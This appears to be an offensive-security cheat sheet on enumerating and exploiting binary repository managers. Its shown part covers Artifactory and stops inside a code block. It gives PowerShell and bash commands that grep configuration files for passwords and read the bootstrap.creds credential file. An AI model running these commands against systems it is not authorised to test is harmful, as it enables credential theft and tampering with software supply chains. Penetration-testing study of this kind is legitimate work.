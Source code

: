 Binary software managers, such as Artifactory, Nexus, or GitHub Packages, manage and store artifacts, packages, and binaries in development environments. Below are examples of popular binary software managers for Windows and Linux, along with methods to enumerate and potentially exploit them using appropriate tools.

### **Binary Software Managers**

#### **Windows:**
1. **Artifactory**
2. **Nexus Repository Manager**
3. **GitHub Packages**
4. **Chocolatey**
5. **NuGet**
6. **ProGet**

#### **Linux:**
1. **Artifactory**
2. **Nexus Repository Manager**
3. **GitHub Packages**
4. **Yum**
5. **APT**
6. **RPM**

---

### **Enumeration and Exploitation Techniques**

#### **1. Artifactory (Windows & Linux)**
- **Enumeration:**
  - **Check for Artifactory Service:**
    - Windows:
      ```powershell
      Get-Service -Name *artifactory*
      ```
    - Linux:
      ```bash
      systemctl status artifactory
      ```
  - **Identify Artifactory Configuration Files:**
    - Windows:
      ```powershell
      Get-ChildItem -Path "C:\Program Files\JFrog\Artifactory\etc\*" -Recurse | Select-String -Pattern "password" -SimpleMatch
      ```
    - Linux:
      ```bash
      grep -i "password" /etc/opt/jfrog/artifactory/* -r
      ```

- **Exploitation:**
  - **Extract Sensitive Information from Configuration Files:**
    - Windows:
      ```powershell
      Get-Content "C:\Program Files\JFrog\Artifactory\etc\security\access\bootstrap.creds" | Out-String
      ```
    - Linux:
      ```bash
      cat /etc/opt/jfrog/artifactory/security/access/bootstrap.creds
      ```
  - **Using Exploit Tools:**
    - **JFrog CLI**: Use JFrog CLI to interact with the repository, upload/download artifacts, or explore repositories:
      ```bash
      jfrog rt u <file> <repository-path>